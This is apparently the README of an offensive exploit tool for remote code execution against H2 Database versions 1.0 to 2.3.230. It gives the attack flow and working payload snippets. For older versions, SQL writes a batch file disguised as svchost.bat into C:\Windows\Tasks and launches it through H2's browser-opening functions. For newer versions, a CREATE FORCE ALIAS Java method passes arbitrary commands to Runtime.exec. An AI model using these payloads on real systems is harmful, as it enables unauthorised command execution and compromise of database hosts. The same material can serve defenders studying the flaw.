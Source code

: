 # H2 Database - RCE  
H2 Database (1.0 ~ 2.3.230) - Remote Code Execution

H2 Database RCE - ViperX Offensive Security

Date: 17/07/2024

The exploit flow operates with the following logic: 
~ for versions <(1.4) we create a 'dummy' table, and write the output log into a ```
C:\Windows\Tasks\svchost.bat``` file by using ```
SCRIPT SIMPLE NODATA NOSETTINGS TO '{BAT_FULLPATH}'```
  
  '-> for old versions we open the .bat file with "org.h2.util.StartBrowser.openURL" and for the newest one "org.h2.tools.Server.openBrowser"
  '-> With this bat file we can perform remote code execution.

~ In case of versions >(1.4), we just perform JAVA Code Execution through 'CREATE ALIAS' function:
```

  '->  CREATE FORCE ALIAS CMD_INJECT AS $$
  void pwshInject() throws Exception {
      Runtime.getRuntime().exec("%s");
  }
  $$;
```
